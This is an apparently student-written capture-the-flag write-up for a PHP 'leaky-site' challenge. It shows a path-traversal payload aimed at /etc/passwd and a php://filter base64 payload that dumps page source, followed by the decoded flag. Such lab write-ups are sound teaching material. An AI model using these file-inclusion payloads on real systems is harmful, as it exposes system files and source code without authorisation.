

1
The source code of this chellence is very easy to understand. 
after visiting the website, we see this link. **https://thecybercoopctf-leaky-site.chals.io/index.php?resource=main_page**
so the backend just take the resource(GET) parameter and include it  plus php extension as the file. i this point, i thing about local file inclusion and that is ok.
let try to include 
# /etc/passwd
- **payload**: ../../../../../../../../etc/passwd%00
- **output**: Warning: include(): Failed opening '../../../../../../../../etc/passwd' for inclusion (include_path='.:/usr/local/lib/php') in /app/index.php on line 4

  we can not include this file because the server is setting to include file from only .:/usr/local/lib/php
  but we know that we can include main_page . 🉑
  **don't forget** our purpuse here is to read the soure code of main page.
  in order to do that, i use **php filter**
  #you can read about php filter on [hacktrick.yz](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
  so let try it
  - **payload**: PHP://filter/convert.base64-decode/resource=?resource=php://filter/convert.base64-encode/resource=main_page
  - **output**: PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8dGl0bGU+TWFpbjwvdGl0bGU+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9Imh0dHBzOi8vdW5wa2cuY29tL0BjdGZkaW8vcGljb2Nzcy10aGVtZXNAMC4wLjMvZGlzdC9jc3MvcGljb3N0cmFwLm1pbi5jc3MiPgogICAgPC9oZWFkPgogICAgPGJvZHk+CiAgICAgICAgPGRpdiBjbGFzcz0iY29udGFpbmVyIG15LTUiPgogICAgICAgICAgICA8aDM+VGhlcmUncyBhIGZsYWcgaGVyZSBidXQgaXQncyBpbiB0aGUgc291cmNlIGNvZGUuLi48L2gzPgogICAgICAgICAgICA8cD4KICAgICAgICAgICAgICAgIENhbiB5b3UgcHVsbCBpdCBvdXQ/CiAgICAgICAgICAgICAgICA8cHJlPgogICAgICAgICAgICAgICAgICAgIDw/cGhwIC8vICJmbGFnezBoX24wX3BocF95MHVyX2wzYWtpbmdfNGxsXzB2ZXJ9IiA/PgogICAgICAgICAgICAgICAgPC9wcmU+CiAgICAgICAgICAgICAgICBQSFAgaXMgcXVpdGUgd2VpcmQgYWJvdXQgZmlsdGVycyBJIGhlYXIuLi4KICAgICAgICAgICAgPC9wPgogICAgICAgIDwvZGl2PgogICAgPC9ib2R5Pgo8L2h0bWw+
 
  - this is the base64 encoded of main_page.php code.
  - we can decode it trought our browser console by using **atob** function. see picture bellow
  - 
 
  - and we get the flag:
  - # flag{0h_n0_php_y0ur_l3aking_4ll_0ver}
  - 

